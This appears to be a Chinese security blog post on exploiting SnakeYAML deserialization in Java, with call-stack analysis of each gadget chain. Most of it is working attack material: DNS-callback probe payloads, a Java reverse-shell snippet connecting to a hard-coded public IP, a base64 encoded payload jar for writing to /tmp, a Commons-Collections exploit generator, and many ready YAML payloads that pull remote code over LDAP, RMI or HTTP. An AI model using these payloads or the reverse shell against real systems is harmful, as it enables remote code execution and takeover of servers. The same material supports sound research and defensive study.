

## 反序列化探测

### 使用URLClassLoader探测

```java
String poc = "!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"http://tcbua9.ceye.io/\"]]]]";
```

### 使用Key调用hashCode方法探测

#### 外部探测漏洞点

```java
String poc = "{!!java.net.URL [\"http://tcbua9.ceye.io/\"]: 1}";
```

我们根据urldns链可以知道key会进行hashCode方法的调用，之后进行urldns的解析

SnakeYaml在进行map的处理的时候将会对key进行hashCode处理，所以我们尝试map的格式

```java
        HashMap hashMap = new HashMap();
        hashMap.put("a", "a");
        hashMap.put("b", "b");
        System.out.println(yaml.dump(hashMap));
// {a: a, b: b}
```

所以我们就可以按照这种使用`{ }`包裹的形式构造map，然后将指定的URL置于key位置

#### 探测内部类

```java
String poc = "{!!java.util.Map {}: 0,!!java.net.URL [\"http://tcbua9.ceye.io/\"]: 1}";
```

在前面加上需要探测的类，在反序列化的过程中如果没有报错，说明反序列化成功了的，进而存在该类

这里创建对象的时候使用的是`{}`这种代表的是无参构造，所以需要存在有无参构造函数，不然需要使用`[]`进行复制构造

## trick

### 替代 !!指定类

```java
public static final String PREFIX = "tag:yaml.org,2002:";
public static final Tag YAML = new Tag("tag:yaml.org,2002:yaml");
public static final Tag MERGE = new Tag("tag:yaml.org,2002:merge");
public static final Tag SET = new Tag("tag:yaml.org,2002:set");
public static final Tag PAIRS = new Tag("tag:yaml.org,2002:pairs");
public static final Tag OMAP = new Tag("tag:yaml.org,2002:omap");
public static final Tag BINARY = new Tag("tag:yaml.org,2002:binary");
public static final Tag INT = new Tag("tag:yaml.org,2002:int");
public static final Tag FLOAT = new Tag("tag:yaml.org,2002:float");
public static final Tag TIMESTAMP = new Tag("tag:yaml.org,2002:timestamp");
public static final Tag BOOL = new Tag("tag:yaml.org,2002:bool");
public static final Tag NULL = new Tag("tag:yaml.org,2002:null");
public static final Tag STR = new Tag("tag:yaml.org,2002:str");
public static final Tag SEQ = new Tag("tag:yaml.org,2002:seq");
public static final Tag MAP = new Tag("tag:yaml.org,2002:map");
```

1. 使用 `! <>`结合的方法

   > 使用这个需要使得反序列化的类有一个单参构造器

   ```java
   //test
   !<tag:yaml.org,2002:javax.script.ScriptEngineManager> [!<tag:yaml.org,2002:java.net.URLClassLoader> [[!<tag:yaml.org,2002:java.net.URL> ["http://tcbua9.ceye.io/"]]]]
   
   //"{!<tag:yaml.org,2002:str> dataSourceName: ldap://120.53.29.60:1389/skgw2z, !<tag:yaml.org,2002:bool> autoCommit: true}"
   ```

2. 使用`%TAG ! tag.yaml.org,2002`提前声明

   > 要求也是需要有有参构造器；不过这里可以传入[]进行参数的赋值；所以无论几个参数都是可以的

   ```java
   //test
   %TAG ! tag:yaml.org,2002:
   ---
   !javax.script.ScriptEngineManager [!java.net.URLClassLoader [[!java.net.URL ["http://tcbua9.ceye.io/"]]]]
   ```

SnakeYAML反序列化

### 简介

YAML是”YAML Ain’t a Markup Language”；它并不是一种标记语言，而是用来表示序列化的一种格式

他是JAVA用于解析YAML格式的库

### 分析

它使用`new Yaml()`对象进行序列化和反序列化

- Yaml.load()：入参是一个字符串或者一个文件，经过序列化之后返回一个Java对象；
- Yaml.dump()：将一个对象转化为yaml文件形式；

按照Y4的说法，**当不存在某个属性，或者存在属性但是不是由public修饰的时候会调用set方法**

做出测试验证：

```java
package study.snakeyaml;

public class User {
    private String name;
    public String passwd;
    Integer age;

    public User() {
        System.out.println("构造方法。。。。。");
    }

    public void setName(String name) {
        System.out.println("setName...........");
        this.name = name;
    }

    public void setPasswd(String passwd) {
        System.out.println("setPasswd..........");
        this.passwd = passwd;
    }

    public void setAge(Integer age) {
        System.out.println("setAge............");
        this.age = age;
    }

    public void setTest(String test) {
        System.out.println("setTest..........");
    }
}
```

其中`passwd`属性为`public`修饰，且存在一个不存在属性的setter方法

```java
package study.snakeyaml;

import org.yaml.snakeyaml.Yaml;

import java.io.FileNotFoundException;

public class Test {
    public static void main(String[] args) throws FileNotFoundException {
        Yaml yaml = new Yaml();
        yaml.load("!!study.snakeyaml.User {name: abc, passwd: bn, age: 870, test: 89}");
    }
}
```


#### 反序列化过程分析

在`Yaml.load`方法中，首先会创建一个`StreamReader`对象，将yaml.load中的值传入，之后将这个对象传入`loadFromReader`中


接着调用了`getSingleData`方法，且此时的`type`是一个Object类型，也可以知道这个yaml是一个类


之后跟进`getSingleData`方法，首先通过了之前创建的`Composer`对象创建了一个结点，如果结点为空，就证明没有内容，返回null值，如果不为空但是type不为Object类型，就会通过`setTag`方法将传入的`type`强添入结点，如果为Object类型，就跳过，之后调用了`constructDocument`方法


跟进，首先判断了`constructedObjects` `recursiveObjects`里面是否有了node结点, 这里不存在，之后将结点添加进入了`recursiveObjects`，之后通过`getConstructor`得到node结点的`constructor`, 进而调用`construct`方法得到对象


在`construct`方法中，通过调用`constructJavaBean2ndStep`返回对象


我们跟进`createEmptyJavaBean`方法，通过反射得到了类的构造函数之后通过`newInstance`进行实例化


接着回到了`construct`方法中，之后跟进`constructJavaBean2ndStep`方法，之后再`PropertyUtils.getPropertiesMap`中存在是否是`isPublic`的判断， 如果是public修饰，调用org.yaml.snakeyaml.introspector.FieldProperty#get，这个只是反射获取值


### 原理

主要是通过`!!`指定反序列化的类，并且在反序列化该类的同时会实例化，之后通过`URLClassLoader` `LDAP` `RMI`等方式远程加载字节码，进行执行恶意代码

### 利用链

#### 利用SPI机制-基于ScriptEngineManager利用链

##### 什么是SPI

服务提供发现机制

`SPI`就是为相关接口实现动态实现类的机制，如果需要使用它需要在`ClassPath`下的`META-INF/services/`目录中创建一个以服务接口命名的文件，文件里面的内容是这个接口的具体实现类的全限定类名

**例子：**

[github项目](https://github.com/artsploit/yaml-payload)

在`src`目录下创建了`META-INF/services/exploit/javax.script.ScriptEngineFactory` 写入了`exploit.AwesomeScriptEngineFactory`

创建了`exploit/AwesomeScriptEngineFactory.java`实现了`ScriptEngineFactory`接口的类

之后编译和打包

```bash
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
```

添加Socket反弹shell

```java
            //利用socket反弹shell
            String host = "120.24.207.121";
            int port = 8080;
            String cmd = "/bin/sh";
            Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
            java.net.Socket s = new java.net.Scoket(host, port);
            java.io.InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
            java.io.OutputStream po = p.getOutputStream(), so = s.getOutputStream();
            while(!s.isClosed()) {
                while(pi.available()>0) {
                    so.write(pi.read());
                }
                while(pe.available()>0) {
                    so.write(pe.read());
                }
                while(si.available()>0) {
                    po.write(si.read());
                }
                so.flush();
                po.flush();
                Thread.sleep(50);
                try {
                    p.exitValue();
                    break;
                }
                catch (Exception e){
                }
            };
            p.destroy();
            s.close();
```

##### POC

```bash
!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://127.0.0.1/a.jar"]]]]
```


成功执行Payload

##### Payload分析

将`payload.jar`放入`lib`下，之后在`javax.script.ScriptEngineManager`下的构造方法处打下断点


可以发现loader是我们payload中的`URLClassLoader`

```java
// 实例化ScriptEngineManager的调用链
<init>:75, ScriptEngineManager (javax.script)
newInstance0:-1, NativeConstructorAccessorImpl (sun.reflect)
newInstance:62, NativeConstructorAccessorImpl (sun.reflect)
newInstance:45, DelegatingConstructorAccessorImpl (sun.reflect)
newInstance:423, Constructor (java.lang.reflect)
construct:572, Constructor$ConstructSequence (org.yaml.snakeyaml.constructor)
construct:346, Constructor$ConstructYamlObject (org.yaml.snakeyaml.constructor)
constructObject:182, BaseConstructor (org.yaml.snakeyaml.constructor)
constructDocument:141, BaseConstructor (org.yaml.snakeyaml.constructor)
getSingleData:127, BaseConstructor (org.yaml.snakeyaml.constructor)
loadFromReader:450, Yaml (org.yaml.snakeyaml)
load:369, Yaml (org.yaml.snakeyaml)
main:16, Test (study.snakeyaml)
```

之后跟进`ScriptEngineManager`

在构造方法中调用了`init`方法，在init方法中都是一些变量的初始化，跟进`initEngines`方法


这里的`ServiceLoader`就是使用的`SPI`机制，这里的泛型是`javax.script.ScriptEngineFactory`, 也能够说明为什么我们的payload.jar中的`services/javax.script.ScriptEngineFactory`



之后`ServiceLoader`需要寻找的服务是`javax.script.ScriptEngineFactory`，通过`URLClassLoader`寻找服务，对应的URL为payload中的地址

之后会调用`ServiceLoader#iterator`方法进而调用`next`，之后调用了`ServiceLoader$LazyIterator#next`方法，进而调用了`nextService`方法


通过反射加载了`NashornScriptEngineFactory`类，之后通过`newInstance`实例化

在之后的迭代过程中也会加载payload中的类并实例化


#### 不出网利用

- WrapperConnectionPoolDataSource

- MarshalOutputStream写文件 + ScriptEngineManager file协议加载本地jar

  ```java
  !!sun.rmi.server.MarshalOutputStream [!!java.util.zip.InflaterOutputStream [!!java.io.FileOutputStream [!!java.io.File ["/tmp/yaml-payload.txt"],false],!!java.util.zip.Inflater  { input: !!binary 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 },1048576]]
  ```

  ```java
  !javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["file:///tmp/yaml-payload.txt"]]]]
  ```

#### C3P0链

##### JndiRefForwardingDataSource

```java
!!com.mchange.v2.c3p0.JndiRefForwardingDataSource {jndiName: "ldap://127.0.0.1:8888/EvilObject",  loginTimeout: "0"}
```


分析：

这里主要是使用的`C3P0`链中的`JndiRefForwardingDataSource`类

其中的`setLoginTimeout`调用了`inner`方法，然而在`inner`方法中也调用了`dereference`方法


在该方法中存在jndi注入(如果jndi可控)

而在他的父类中存在对应的`setter`方法，形成了利用链

##### WrapperConnectionPoolDataSource

```java
package study.snakeyaml;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;
import org.yaml.snakeyaml.Yaml;

import javax.xml.transform.Templates;
import java.io.ByteArrayOutputStream;
import java.io.InputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class Snakeyaml_CC4 {

    public static Field getField (final Class<?> clazz, final String fieldName ) throws Exception {
        try {
            Field field = clazz.getDeclaredField(fieldName);
            if ( field != null )
                field.setAccessible(true);
            else if ( clazz.getSuperclass() != null )
                field = getField(clazz.getSuperclass(), fieldName);

            return field;
        }
        catch ( NoSuchFieldException e ) {
            if ( !clazz.getSuperclass().equals(Object.class) ) {
                return getField(clazz.getSuperclass(), fieldName);
            }
            throw e;
        }
    }

    public static void setFieldValue ( final Object obj, final String fieldName, final Object value ) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static PriorityQueue CommonsCollections4() throws Exception {

        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass ctClass = pool.makeClass("c3p0Exploit");
        ctClass.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        String shell = "java.lang.Runtime.getRuntime().exec(\"calc\");";
        ctClass.makeClassInitializer().insertBefore(shell);

        byte[] shellCode = ctClass.toBytecode();
        byte[][] targetCode = new byte[][]{shellCode};

        TemplatesImpl templatesImpl = new TemplatesImpl();
        setFieldValue(templatesImpl, "_name", "RoboTerh");
        setFieldValue(templatesImpl, "_bytecodes", targetCode);
        setFieldValue(templatesImpl, "_tfactory", new TransformerFactoryImpl());

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templatesImpl})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);

        PriorityQueue priorityQueue = new PriorityQueue(2);
        priorityQueue.add(1);
        priorityQueue.add(2);
        Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        field.setAccessible(true);
        field.set(priorityQueue, transformingComparator);

        return priorityQueue;
    }

    public static byte[] toByteArray(InputStream in) throws Exception {
        byte[] classBytes;
        classBytes = new byte[in.available()];
        in.read(classBytes);
        in.close();
        return classBytes;
    }

    public static String bytesToHexString(byte[] bArray, int length) {
        StringBuffer sb = new StringBuffer(length);

        for(int i = 0; i < length; ++i) {
            String sTemp = Integer.toHexString(255 & bArray[i]);
            if (sTemp.length() < 2) {
                sb.append(0);
            }

            sb.append(sTemp.toUpperCase());
        }
        return sb.toString();
    }

    public static void main(String[] args) throws Exception {

        PriorityQueue queue = CommonsCollections4();

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream outputStream = new ObjectOutputStream(byteArrayOutputStream);
        outputStream.writeObject(queue);
        outputStream.close();

        byte[] bytes = byteArrayOutputStream.toByteArray();
        //byte[] bytes = toByteArray(inputStream);
        String hexString = bytesToHexString(bytes, bytes.length);

        //String poc = "{\n\t\"@type\": \"com.mchange.v2.c3p0.WrapperConnectionPoolDataSource\",\n\t\"userOverridesAsString\": \"HexAsciiSerializedMap:" + hexString + ";\"\n}";
        String poc = "!!com.mchange.v2.c3p0.WrapperConnectionPoolDataSource {userOverridesAsString: \"HexAsciiSerializedMap: " + hexString  + "\"}";
        System.out.println(poc);
        Yaml yaml = new Yaml();
        yaml.load(poc);
    }
}
```

这是一条不出网的二次反序列化 `SnakeYaml + CC4链`

分析：

c3p0在监听`userOverridesAsString`属性值的时候会调用`C3P0ImplUtils.parseUserOverridesAsString`处理新的属性值，截取了`HexAsciiSerializedMap`后的第二个字符到倒数第二个字符的hex串，之后通过调用`fromHexAscii`方法将hex转化为序列化字节，再通过调用了`SerializableUtils.fromByteArray`方法处理序列化字节，调用了`deserializeFromByteArray`进行反序列化，如果这里是一个恶意的字节码，就会进行恶意触发漏洞

通过在他的父类中同样有对应的`setter`方法，就可以结合其他反序列化链子进行利用链的构造

#### fastjson链

##### com.sun.rowset.JdbcRowSetImpl

```java
!!com.sun.rowset.JdbcRowSetImpl {dataSourceName: "ldap://127.0.0.1:8888/EvilObject", autoCommit: "true"}
```

这个链子主要是通过`setAutoCommit`方法中调用`connect`方法进而导致`lookup`的参数可控形成了jndi注入

##### oracle.jdbc.rowset.OracleJDBCRowSet

```java
!!oracle.jdbc.rowset.OracleJDBCRowSet {dataSourceName: "ldap://localhost:9999/Evil", command: "a"}
```

这个链子主要是通过`OracleJDBCRowSet`类中的`setCommand`方法中存在调用`getConnection`方法，且lookup的参数可控形成利用链


##### org.apache.ibatis.datasource.jndi.JndiDataSourceFactory

```java
!!org.apache.ibatis.datasource.jndi.JndiDataSourceFactory {properties: {data_source: "ldap://127.0.0.1:9999/Evil"}}	
```

```java
setProperties:56, JndiDataSourceFactory (org.apache.ibatis.datasource.jndi)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
set:48, MethodProperty (org.yaml.snakeyaml.introspector)
constructJavaBean2ndStep:311, Constructor$ConstructMapping (org.yaml.snakeyaml.constructor)
construct:190, Constructor$ConstructMapping (org.yaml.snakeyaml.constructor)
construct:346, Constructor$ConstructYamlObject (org.yaml.snakeyaml.constructor)
constructObject:182, BaseConstructor (org.yaml.snakeyaml.constructor)
constructDocument:141, BaseConstructor (org.yaml.snakeyaml.constructor)
getSingleData:127, BaseConstructor (org.yaml.snakeyaml.constructor)
loadFromReader:450, Yaml (org.yaml.snakeyaml)
load:369, Yaml (org.yaml.snakeyaml)
main:20, Test (study.snakeyaml)
```

主要是通过`JndiDataSourceFactory`的`setProperties`方法的`lookup`可控


##### org.springframework.beans.factory.config.PropertyPathFactoryBean

```java
!!org.springframework.beans.factory.config.PropertyPathFactoryBean {targetBeanName: "ldap://127.0.0.1:9999/Evil", propertyPath: "RoboTerh", beanFactory: !!org.springframework.jndi.support.SimpleJndiBeanFactory {shareableResources: ["ldap://127.0.0.1:1099/Exploit"]}}
```

这个payload主要是通过在`PropertyPathFactoryBean`类中将会触发`setBeanFacotry`调用`beanFactory.setBean`在其中存在一个可控的`lookup`方法，但是其中有一个判断`if (isSingleton(name))`, 我们需要设置`shareableResources`绕过


##### javax.management.BadAttributeValueExpException

需要依赖

```xml
      <dependency>
          <groupId>org.apache.xbean</groupId>
          <artifactId>xbean-naming</artifactId>
          <version>4.5</version>
      </dependency>
```

```java
!!javax.management.BadAttributeValueExpException [!!org.apache.xbean.naming.context.ContextUtil$ReadOnlyBinding ["foo",!!javax.naming.Reference ["foo", "Evil", "http://127.0.0.1/"],!!org.apache.xbean.naming.context.WritableContext []]]
```

这个利用链，在`BadAttributeValueExpException`类的构造方法中


如果传入的参数是`org.apache.xbean.naming.context.ContextUtil$ReadOnlyBinding`类对象，将会调用他的`toString`方法，虽然这个静态类没有`toString`方法，但是他的父类为`Binding`存在，在其中调用了`ReadOnlyBinding#getObject`方法，进而调用了`ReadOnlyBinding#resolve`, 在其中存在`NamingManager.getObjectInstance`，这个就是jndi利用链的一部分


跟进，在`NamingManager#getObjectInstance`调用了`getObjectFactoryFromReference`方法，跟进


首先使用当前的`ClassLoader`加载类，如果没有加载到，就通过获取`codebase`得到ClassLocation，之后通过loadClass获取恶意类，值得注意的是，在`loadClass`方法中将会判断是否开启`trustURLCodebase`，当然尽管他为`flase`，我们也可以通过寻找`ObjectFactory`绕过限制，后面的过程就很明白了

当然还有各种各样的和fastjson链结合的payload

##### org.apache.commons.configuration.ConfigurationMap

```xml
<dependency>
    <groupId>commons-configuration</groupId>
    <artifactId>commons-configuration</artifactId>
    <version>1.10</version>
</dependency>
```

```java
!!org.apache.commons.configuration.ConfigurationMap [!!org.apache.commons.configuration.JNDIConfiguration [!!javax.naming.InitialContext [], "ldap://127.0.0.1:9999/Evil"]]: 1
```

调用栈

```java
getObjectFactoryFromReference:146, NamingManager (javax.naming.spi)
getObjectInstance:189, DirectoryManager (javax.naming.spi)
c_lookup:1085, LdapCtx (com.sun.jndi.ldap)
p_lookup:542, ComponentContext (com.sun.jndi.toolkit.ctx)
lookup:177, PartialCompositeContext (com.sun.jndi.toolkit.ctx)
lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:94, ldapURLContext (com.sun.jndi.url.ldap)
lookup:417, InitialContext (javax.naming)
getBaseContext:452, JNDIConfiguration (org.apache.commons.configuration)
getKeys:203, JNDIConfiguration (org.apache.commons.configuration)
getKeys:182, JNDIConfiguration (org.apache.commons.configuration)
<init>:161, ConfigurationMap$ConfigurationSet$ConfigurationSetIterator (org.apache.commons.configuration)
<init>:154, ConfigurationMap$ConfigurationSet$ConfigurationSetIterator (org.apache.commons.configuration)
iterator:207, ConfigurationMap$ConfigurationSet (org.apache.commons.configuration)
hashCode:528, AbstractMap (java.util)
constructMapping2ndStep:366, BaseConstructor (org.yaml.snakeyaml.constructor)
constructMapping2ndStep:147, SafeConstructor (org.yaml.snakeyaml.constructor)
constructMapping:354, BaseConstructor (org.yaml.snakeyaml.constructor)
construct:489, SafeConstructor$ConstructYamlMap (org.yaml.snakeyaml.constructor)
constructObject:182, BaseConstructor (org.yaml.snakeyaml.constructor)
constructDocument:141, BaseConstructor (org.yaml.snakeyaml.constructor)
getSingleData:127, BaseConstructor (org.yaml.snakeyaml.constructor)
loadFromReader:450, Yaml (org.yaml.snakeyaml)
load:369, Yaml (org.yaml.snakeyaml)
main:25, Test (study.snakeyaml)
```

在`constructMapping2ndStep`调用`AbstractMap#hashCode`方法，之后调用了`JNDIConfiguration#getKeys`在`getBaseContext`存在可控的`lookup`

## Reference

https://y4tacker.github.io/2022/02/08/year/2022/2/SnakeYAML%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%8F%8A%E5%8F%AF%E5%88%A9%E7%94%A8Gadget%E5%88%86%E6%9E%90

https://www.cnblogs.com/CoLo/p/16225141.html